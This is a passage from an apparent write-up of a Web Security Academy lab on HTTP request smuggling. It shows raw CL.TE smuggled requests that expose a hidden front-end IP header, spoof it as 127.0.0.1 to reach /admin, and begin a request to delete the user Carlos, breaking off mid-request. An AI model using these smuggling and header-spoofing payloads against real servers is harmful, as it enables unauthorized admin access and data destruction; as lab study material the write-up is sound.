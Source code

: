    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 166
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Content-Length: 100
    Content-Type: application/x-www-form-urlencoded

    search=

We immediately got the response:

    0 search results for 'POST / HTTP/1.1
    X-xdGKVD-Ip: 222.252.28.231
    Host: 0a4b00a1041d0dc18085993400ec007d.web-secu'

This reveals the hidden header similar the `X-Forwarded-For` header. Now try using this header to access the admin interface by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 189
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 222.252.28.231
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=

Notice a notification:

    Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1

Change the `X-xdGKVD-Ip` header value to `127.0.0.1`. We now got access into the admin's interface, where we found the endpoint to delete user Carlos. Send this request 2 times to delete Carlos:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 212
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0
